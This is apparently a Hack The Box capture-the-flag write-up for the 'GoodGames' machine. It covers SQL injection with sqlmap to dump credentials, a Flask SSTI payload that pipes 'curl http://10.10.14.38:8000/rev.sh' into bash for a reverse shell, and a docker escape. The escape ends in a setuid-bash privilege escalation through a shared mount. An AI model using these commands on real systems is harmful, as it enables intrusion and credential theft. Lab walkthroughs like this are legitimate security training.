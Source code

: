 # GoodGames (Full Pwn)

## User

We 're starting with nmap to scan open ports in the machine.

![nmap](1.png)

We get only http port 80 open running Flask. So we will try our way in from this port. Fuzzing for directories didn't helped at all. There's only signup and login forms. Fill the form with random credentials and click login.

![login](2.png)

We get a 200 response and a html page with a 500 error.

![login_error](3.png)

We could try an sql injection there to see if we get a useful response. Running sqlmap to get information about the database that this machine use.

` sqlmap -u http://10.129.227.232/login --data "email=1&password=2" `

We got email parameter vulnerable to injection and the the DBMS used is MySQL.

![sqlmap_try](4.png)

Now we can run sqlmap to dump all databases to search for interesting data, like usernames, passwords etc.

` sqlmap -u http://10.129.227.232/login --data "email=1&password=2" --dbms="MySQL" --all `

![sqlmap_dump_dbs](5.png)

We got 2 databases. We 'll dump the tables from main db.

` sqlmap -u http://10.129.227.232/login --data "email=1&password=2" --dbms="MySQL" -D main --tables `

![sqlmap_dump_tables](6.png)

We have a user table. Let's dump the table for potential credentials

![main_user_table](7.png)

We got admin's hash password. Trying to crack with crackstation and we get the password ` superadministrator `. Then we successfully log in to the site. In the upper right there is settings option which leads to a subdomain. Add the subdomain to hosts file and then we access it. In /settings there is another form for user information. We fill the info and they render at right of form. This web app is Flask, which is a python web framework. So a good idea is to try in name parameter a basic SSTI payload.

![ssti_web](8.png)

We got 49, which means it executed in backend. We intercept the request again with burp and send a payload for reverse shell.

` name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.38:8000/rev.sh | bash').read() }} `

![reverse_shell](9.png)

We obtain a reverse shell as root, so obviously we try to get root flag, But it's not there. We get user flag in augustus directory though.

**HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}**

Enumerating we understand that we are inside a docker container. So we need a way to escape to host. Enumerating with mount command we can see that /dev/sda1 is mounted on /home/augustus, so augustus is host's machine user. We know that docker's gateway is 172.19.0.1 so we can try to ssh as augustus.

![reverse_shell](10.png)

## Root

And we got ssh as augustus in the host. Enumerating the machine and with linpeas also, we cant find anything useful to escalate to root. But we know that the augustus directory is mounted to the docker container and inside container we have root privileges. We can abuse this with effective uid to execute a binary with root privileges as augustus. An easy way to do this is to copy bash binary to augustus directory and from inside container we can change it's permission and set the sticky bit.

` cp /usr/bin/bash . `

From container as root:

` chown root:root ./bash `
` chmod u+s ./bash `

From host as augustus:

` ./bash -p `
` cat /root/root.txt `

**HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}**
